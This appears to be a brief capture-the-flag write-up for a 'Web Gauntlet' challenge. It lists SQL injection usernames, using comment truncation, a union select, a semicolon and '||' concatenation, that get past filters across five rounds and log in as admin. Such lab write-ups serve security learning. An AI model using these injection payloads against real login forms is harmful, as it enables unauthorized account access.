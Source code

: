 #Web Gauntlet

##Description
Can you beat the filters? Log in as admin

##Solution 

round 1 

```console 

username=admin' -- and paswword 123

```
round 2 

```console

username= admin' union select * from users where id= '1 and password 123

```

round 3 


```console

username=admin';

```


round 4


```console

username=ad'||'min';

```

round 5


```console

username=ad'||'min';

```
after solved check filter.php again  to get flag

